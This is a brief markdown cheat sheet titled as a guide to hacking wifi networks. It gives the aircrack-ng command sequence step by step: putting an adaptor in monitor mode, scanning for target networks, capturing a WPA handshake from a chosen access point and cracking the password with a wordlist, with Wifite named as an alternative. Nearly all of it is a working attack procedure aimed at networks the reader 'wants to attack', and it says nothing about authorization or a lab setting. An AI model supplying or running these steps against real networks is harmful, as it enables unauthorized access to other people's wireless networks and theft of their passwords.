## HACKING WIFI NETWORKS USING AIRCRACK
# lists the network adaptors available and their properties. Note the name of your network adaptor that support monitoring, e.g., wlan1:
    iwconfig
# Change adaptor into monitor mode:
    airmon-ng start wlan1
# See the new adaptor:
    iwconfig
# Search for all wifi available for you to attack and mark the channel and mac address of the wifi you want to attack:
    airodump-ng wlan1mon 
# Capture wpa handshake: (EAPOL)
    airodump-ng -c <channel-no> -w <name-of-output-file> -d <mac-address> wlan1mon : 
# Crack the password:
    aircrack-ng output-above.cap -w wordlist.txt

# Alternatively
    Use Wifite
